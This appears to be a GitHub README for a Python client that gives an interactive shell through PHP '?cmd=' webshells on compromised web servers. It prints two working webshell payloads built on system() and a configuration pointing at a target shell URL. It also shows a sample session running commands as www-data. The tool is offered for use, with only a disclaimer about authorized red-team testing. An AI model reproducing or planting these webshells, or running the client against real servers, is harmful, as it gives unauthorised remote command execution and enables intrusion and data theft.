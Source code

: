 # PHP WebShell Client

A lightweight Python CLI to interact with minimal PHP `?cmd=` webshells.  
Designed to keep the server-side payload extremely small while providing a comfortable client-side interface.

## ✨ Features
- Kali-style interactive prompt (user-only label, `#` when `uid=0`).
- Tab completion with remote directory caching.
- Command history navigation (↑ / ↓) via `readline`.
- **Compatible with *both* minimal PHP shells** (see below).
- Robust parsing with output markers (independent of any HTML the server may add).
- Auto-detects current user (`whoami`) for prompt display.
- Refreshes identity only when a command suggests a user change (e.g. `sudo`, `su`, `newgrp`, `docker`, …).
- Uses `requests.Session()` with retries and timeouts.
- **AUTO transport**: tries POST first and falls back to GET if needed (you can force one).

## ✅ Minimal server-side shells (compatible)

### 1) Minimal with `$_REQUEST` (and `<pre>` wrapper) — classic
```php
<?php
if (isset($_REQUEST['cmd'])) {
    echo "<pre>";
    $cmd = $_REQUEST['cmd'];
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

### 2) Ultra-minimal with `$_GET` only
```php
<?php system($_GET['cmd']); ?>
```
> This one **only** accepts GET. The client’s **AUTO** mode detects it and retries with GET when no markers are found in the POST response.

## 🚀 Quick start

1) **Edit configuration** in `RemoteAccess.py` (or your file name):
```python
URL = "https://target.tld/path/shell.php"

# Transport:
#   "auto" -> try POST, fallback to GET (recommended)
#   "post" -> force POST
#   "get"  -> force GET (use when your shell is like: <?php system($_GET['cmd']); ?>)
TRANSPORT = "auto"
```

2) **Install dependency** and run:
```bash
pip3 install requests
python3 RemoteAccess.py
```

3) **Example session**
```text
Cliente interactivo para WebShell PHP (Ctrl+C para salir)
┌──(www-data)-[/var/www]
└─$ pwd
/var/www
┌──(www-data)-[/var/www]
└─$ ls -la
...
┌──(www-data)-[/var/www]
└─$ whoami
www-data
```

## ⚙️ How it works (high level)
- The client wraps your command with **markers** (`__WBSTART__`, `__WBEND__`, `__WBRC__`) and a safe `cd` to the current working directory.  
- Output is parsed at **byte** level to avoid HTML interference.  
- Directory listings for tab-completion are cached for a few seconds and invalidated after FS-changing commands.  
- Identity (user) is detected via `whoami` / `id -un` and **only** refreshed if you run commands that look like user changes (e.g., `sudo`, `su`, …).

## 🧩 Options (excerpt)
- `TRANSPORT = "auto" | "post" | "get"` — transport selection.
- `VERIFY_TLS = True` — enable/disable TLS verification if you’re using self-signed certs.
- `REMOTE_CMD_TIMEOUT` — uses `timeout` on the remote host when available.

## 🛠 Requirements
- Python 3.8+
- `requests`

(Optional) Create a `requirements.txt`:
```txt
requests
```

## ⚠️ Legal / Disclaimer
This project is for **authorized security testing and education only**.  
Do **not** use it without explicit permission from the system owner.  
The author assumes no responsibility for misuse or damage.

---
Made with ❤️ for red teamers and security researchers.

